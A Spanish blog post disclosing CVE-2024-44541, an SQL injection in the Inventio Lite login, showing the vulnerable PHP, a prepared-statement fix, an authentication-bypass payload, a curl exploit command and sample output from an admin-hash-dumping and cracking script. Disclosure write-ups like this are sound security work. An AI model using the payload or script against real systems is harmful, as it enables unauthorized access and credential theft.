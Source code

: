 +++
author = "Andrés Del Cerro"
title = "Mi primer CVE - CVE-2024-44541"
date = "2024-08-03"
description = ""
tags = [
    "Cybersecurity",
    "Penetration Testing",
    "Web Hacking",
    "CVE",
    "Informative",
    "CVE-2024-44541"
]

+++

# Introducción:

Recientemente, descubrí mi primer CVE, un hito importante en mi trayectoria en ciberseguridad. Aquí comparto brevemente el proceso.
¿Qué es un CVE?

CVE (Common Vulnerabilities and Exposures) es un sistema que identifica y categoriza vulnerabilidades de seguridad en software, permitiendo que se reporte y solucione de manera coordinada.
El Descubrimiento

---

# Código Vulnerable

El código vulnerable se encuentra en el archivo de login, donde la entrada del usuario no se escapa adecuadamente antes de ser incluida en la consulta SQL:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();
    $sql = "select * from user where (email= \"".$user."\" or username= \"".$user."\") and password= \"".$pass."\" and is_active=1";
    $query = $con->query($sql);
    $found = false;
    $userid = null;
    while($r = $query->fetch_array()){
        $found = true;
        $userid = $r['id'];
    }
}
```
En esta implementación, el parámetro `username` se concatena directamente en la consulta SQL, permitiendo la inyección de código malicioso.

---

# Código Corregido
La vulnerabilidad se solucionó utilizando consultas **preparadas**, que permiten escapar adecuadamente las entradas del usuario y evitar la inyección SQL:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();

    // Preparar la consulta
    $stmt = $con->prepare("
        SELECT * FROM user 
        WHERE (email = ? OR username = ?) 
        AND password = ? 
        AND is_active = 1
    ");

    // Vincular los parámetros
    $stmt->bind_param("sss", $user, $user, $pass);

    // Ejecutar la consulta
    $stmt->execute();

    // Obtener los resultados
    $result = $stmt->get_result();
    $found = false;
    $userid = null;

    while($r = $result->fetch_assoc()){
        $found = true;
        $userid = $r['id'];
    }

    // Cerrar la declaración
    $stmt->close();
}
```

---

# Explotación
## Payload de Bypass de Autenticación
Un atacante puede explotar esta vulnerabilidad utilizando un payload como el siguiente para eludir la autenticación:
```text
username -> ") or 1=1-- -
password -> cualquier_valor
```

**Ejemplo de explotación con** `curl`:
```console
$ curl -X POST http://URL_INVENTIO_LITE/inventio-lite/?action=processlogin -d 'username=%22%29%20or%201%3D1--%20-&password=blablabla' -v && echo ""
```

# Script de Explotación Automática
He desarrollado un script en Python que automatiza la extracción del nombre de usuario y hash de la contraseña del administrador, y luego intenta descifrar la contraseña.

Para usar el script, clona el repositorio y ejecuta el script:

```console
$ git clone https://github.com/pointedsec/CVE-2024-44541
$ pip install -r requirements.txt
$ python3 sqli.py
```
**Ejemplo de salida del script**
```console
[*] Checking if target is vulnerable
[+] Target Vulnerable!
[*] Dumping Administrator username...
[◤] Extracting Username: -> POINTEDSEC@GMAIL.COM
[/] Extracting Admin Password Hash: Final Admin Hash: 90b9aa7e25f80cf4f64e990b78a9fc5ebd6cecad
[+] Password Decrypted! -> POINTEDSEC@GMAIL.COM:admin
```

---

# Impacto
La explotación de esta vulnerabilidad puede tener las siguientes consecuencias:
- **Confidencialidad**: Los atacantes pueden extraer toda la base de datos, accediendo a información sensible como credenciales de usuarios, correos electrónicos y otros datos personales.
- **Integridad**: Un atacante podría obtener acceso administrativo, permitiendo modificar, agregar o eliminar datos en la aplicación.

---
#Referencias

- [Inventio Lite GitHub Repository](https://github.com/evilnapsis/inventio-lite)
- [CVE-2024-44541 en MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-44541)
- [Alerta en INCIBE](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-44541)
- [Detalle en NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-44541)

---

# Créditos
Este CVE fue descubierto y reportado por Andrés Del Cerro (alias: pointedsec, yo jejeje). Si necesitas más información, no dudes en contactarme a través de pointedpentesting@gmail.com.

---

# Conclusión
Después de validar la vulnerabilidad, procedí con su divulgación responsable, colaborando con el equipo de seguridad afectado para resolverla.

Descubrir y reportar un CVE ha sido una experiencia educativa, reforzando mi enfoque en la seguridad informática y motivándome a seguir contribuyendo a este campo.

Happy Hacking! 🚀